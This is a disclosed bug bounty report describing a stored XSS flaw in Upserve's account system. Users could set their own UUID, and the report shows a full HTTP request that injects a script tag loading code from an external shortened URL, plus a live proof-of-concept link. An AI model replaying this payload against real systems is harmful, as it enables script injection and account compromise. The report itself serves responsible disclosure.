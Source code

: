 # Ability to create own account UUID leads to stored XSS

## Report Details
- **Report ID**: 249131
- **URL**: https://hackerone.com/reports/249131
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-13T05:57:02.081Z
- **Disclosed**: 2019-06-10T15:50:36.553Z

## Reporter
- **Username**: cache-money
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upserve

## Vulnerability Information
I found an interesting bug where the system allows a user to create their own UUIDs. There are character length restrictions on this action, however it's not bound to a specific set of characters. Even so, I was able to include an external script that I URL shortened to just hit the character limit exactly. I was lucky I didn't need to add the closing script tag, because the one at the end of the line takes care of it. I wanted to get a full PoC rather than an `alert(1)`, because I think it could have been argued that the space was too small to actually do anything meaningful with.

This attack is similar in the way to #246806, except I'm quite confident this will be executed on admin panels and anywhere else a UUID is displayed, since sanitization on that attribute is highly unlikely.

**PoC**
Just replace the email with the one you own, and click the email confirmation link.
```
POST /c/user HTTP/1.1
Host: app.upserve.com
Accept: application/json
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://app.upserve.com/settings/account
Content-Length: 134
Content-Type: text/plain;charset=UTF-8
DNT: 1
Connection: close

uuid=</script><script src=//is.gd/z0i2sU>&email=[YOUR EMAIL]&brand_pretty_url=ace-wasabis-rock-n-roll-sushi
```

**Live PoC**
Visit the following page: https://app.upserve.com/b/ace-wasabis-rock-n-roll-sushi?email_token=2aa7296c678e11e7ab2f0242ac110002

The generated HTML looks like:
`YUI.namespace('Env.DATA').consumer = {"uuid":"</script><script src=//is.gd/z0i2sU>","firstName":null,`

Thanks,
-- Tanner

## Attachments
No attachments
